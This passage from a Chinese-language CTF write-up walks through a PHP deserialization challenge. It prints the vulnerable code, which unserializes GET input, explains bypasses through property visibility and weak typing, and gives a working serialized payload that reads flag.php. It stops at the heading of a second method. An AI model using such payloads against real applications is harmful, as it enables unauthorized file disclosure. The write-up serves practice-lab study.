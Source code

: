 ```php
        return $res;
    }
    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }
    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
if(isset($_GET{'str'})) {
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

在自己电脑上搭建了这个环境的靶场，注意要将php版本改为php7.2+，不然无法正常漏洞利用

### 绕过is_valid()和PHP弱类型判断

绕过方法一：

首先发现三个变量都是protected类型的变量，因为php7.2+有覆盖漏洞，则可以构造三个public类型变量进行序列化

```php
class FileHandler {
    public $op;
    public $filename;
    public $content;
}
```

构造序列化字符串绕过is_valid(),并且源码里需要保证op值 op==“2”&&op!=="2" 这里需要利用PHP弱类型 直接让op 为int类型值为2

```php
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}
```

回显：

![image-20200720152618163](https://ka1t4v-1302680532.cos.ap-beijing.myqcloud.com/image-20200720152618163.png)

绕过方法二：
